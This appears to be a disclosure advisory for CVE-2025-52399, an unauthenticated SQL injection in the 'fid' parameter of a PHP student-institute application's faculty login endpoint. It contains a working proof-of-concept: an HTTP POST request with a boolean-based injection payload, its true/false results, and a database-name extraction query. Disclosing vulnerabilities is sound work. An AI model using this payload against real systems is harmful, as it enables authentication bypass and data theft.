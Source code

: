 # CVE-2025-52399 - SQL Injection in Institute of Current Students

## Summary

The `loginlinkfaculty` endpoint in the Institute-of-Current-Students application is vulnerable to SQL Injection via the `fid` POST parameter. The parameter is not properly sanitized before being used in a SQL query, allowing remote attackers to execute arbitrary SQL commands.

- Vulnerability Type: SQL Injection
- Affected Component: `/loginlinkfaculty` (POST)
- Affected Parameter: `fid`
- Authentication: Not required
- Impact: Authentication bypass, data extraction
- Tested On: Localhost
- Database: `icsnew`
- Version: 1.0

## PoC

### HTTP Request

http
POST /Institute-of-Current-Students/loginlinkfaculty HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

fid=-1'+OR+3*2*1=6+AND+000942=000942--&pass=example

### Payload Result

✅ `-1' OR 3*2*1=6 AND 000942=000942 --` → TRUE
❌ `-1' OR 2*3=4 AND 000942=000942 --` → FALSE

### Database Extraction

SELECT database(); -- returns 'icsnew'

## References

* [CVE-2025-52399 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-52399)
* [Vulnerable Application](https://github.com/mathurvishal/Institute-of-Current-Students---PHP-Project)
* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Discoverer

Isroil Mustafoqulov
